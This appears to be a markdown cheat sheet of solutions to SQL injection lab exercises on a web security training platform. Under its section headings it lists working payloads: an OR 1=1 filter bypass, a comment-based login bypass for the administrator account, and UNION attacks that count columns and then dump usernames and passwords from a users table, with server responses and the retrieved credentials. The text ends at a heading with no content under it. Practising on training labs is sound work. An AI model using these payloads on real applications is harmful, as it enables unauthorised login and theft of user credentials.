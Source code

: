 # SQLi

## Retrieving hidden data

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```
/filter?category=Food+%26+Drink'+OR+1=1--
```

## Subverting application logic

### SQL injection vulnerability allowing login bypass

Username: `administrator'--`

## Retrieving data from other database tables

### Determining the number of columns required in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+null--            500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null--       500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null,null--  200 OK
```

### Finding columns with a useful data type in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+'rn4IRy',null,null--   500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,'rn4IRy',null--   200 OK
```

### Using an SQL injection UNION attack to retrieve interesting data
```
?category=Pets'+UNION+SELECT+username,password+FROM+users--
```
Credentials retrieved: `administrator` / `sip8ds`

### Retrieving multiple values within a single column
```
?category=Gifts'+UNION+SELECT+null,username+||+'~'+||+password+FROM+users--

wiener~peter
administrator~5v82nt
carlos~montoya
```

## Examining the database